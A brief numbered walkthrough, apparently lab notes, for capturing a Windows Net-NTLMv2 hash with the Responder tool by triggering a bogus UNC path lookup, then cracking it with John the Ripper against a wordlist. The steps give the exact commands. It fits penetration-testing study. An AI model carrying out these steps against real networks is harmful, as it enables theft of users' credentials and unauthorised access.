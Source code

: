 1. Download responder - git clone https://github.com/lgandx/Responder
2. Run the responder tool - ./responder -I interface
3. Create a search error from the windows machine - \\hsadfhusfdj
4. Extract the Net-NTLMv2 hash from the responder tool
5. Copy the Net-NTLMv2 hash into a file
6. Create a wordlist that contain the client password
7. Use JohnTheRipper to crack the hash - john --format=netntlmv2 [hash file] --wordlist=[wordlist file]